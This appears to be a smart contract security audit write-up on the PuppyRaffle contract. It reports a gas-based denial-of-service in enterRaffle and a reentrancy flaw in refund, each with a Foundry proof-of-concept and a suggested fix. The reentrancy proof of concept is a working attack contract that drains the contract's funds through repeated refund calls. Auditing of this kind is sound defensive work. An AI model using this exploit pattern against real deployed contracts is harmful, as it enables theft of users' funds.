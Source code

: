 # 1

## [M-#] TITLE (Root Cause + Impact)

Looping over an unbounded array in `PuppyRaffle::enterRaffle` can cause DoS

## Description:

DoS attack occurs when a tx is forcibly made to revert when in fact it is expected to pass through. This could be caused by increasing the gas cost of the execution or undesirable behavior due to failed external calls

## Impact:

Faciliates early participants of the raffle over the later ones since the later ones have to pay orders of magnitude higher cost than early players. Gas cost could exceed the maxGasLimit making the service unusable

M / H

## Proof of Concept:

```js

    function testIsDoS() public {
        vm.txGasPrice(1);
        address[] memory players = new address[](100);
        for (uint256 i = 0; i < 100; i++) {
            players[i] = address(i);
        }

        uint256 gasUsedBefore = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * 100}(players);
        uint256 gasUsedAfter = gasleft();
        uint256 gasUsed = (gasUsedBefore - gasUsedAfter) * tx.gasprice;

        console.log("Gas used for first 100: ", gasUsed);

        address[] memory players2 = new address[](100);
        for (uint256 i = 0; i < 100; i++) {
            players2[i] = address(i + players.length);
        }

        uint256 gasUsedBefore2 = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * 100}(players2);
        uint256 gasUsedAfter2 = gasleft();
        uint256 gasUsed2 = (gasUsedBefore2 - gasUsedAfter2) * tx.gasprice;

        console.log("Gas used for second 100: ", gasUsed2);

        assert(gasUsed2 > gasUsed);
    }
```

## Recommended Mitigation:

- we could loop through a bounded array OR maintain a mapping to check for already existing players

# 2

## [H-#] TITLE (Root Cause + Impact)

Reentrancy Attack Vector present in `PuppyRaffle:refund` which could drain the smart contract

## Description:

Due to the function not following the CEI pattern, external call is made before making the necessary state changes, exposing a vulneraability for Reentrnacy by an attacker

## Impact:

All the Funds in the wallet could be drained

H

## Proof of Concept:

```js

    contract AttackContract {
    PuppyRaffle puppyRaffle;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
    }

    fallback() external payable {
        if (address(puppyRaffle).balance > 0) {
            uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
            puppyRaffle.refund(playerIndex);
        }
    }

    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: 1e18}(players);

        uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(playerIndex);
    }
}


    function testReentrancy() public playerEntered {
        AttackContract attackContract = new AttackContract(puppyRaffle);
        vm.deal(address(attackContract), 1 ether);
        attackContract.attack();
        uint256 contractBalance = address(attackContract).balance;
        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(attackContract).balance, entranceFee * 2);
    }
```

## Recommended Mitigation:

- follow CEI pattern and reset player address to zero before making the external call 
OR
- use Reentrancy Guard form OZ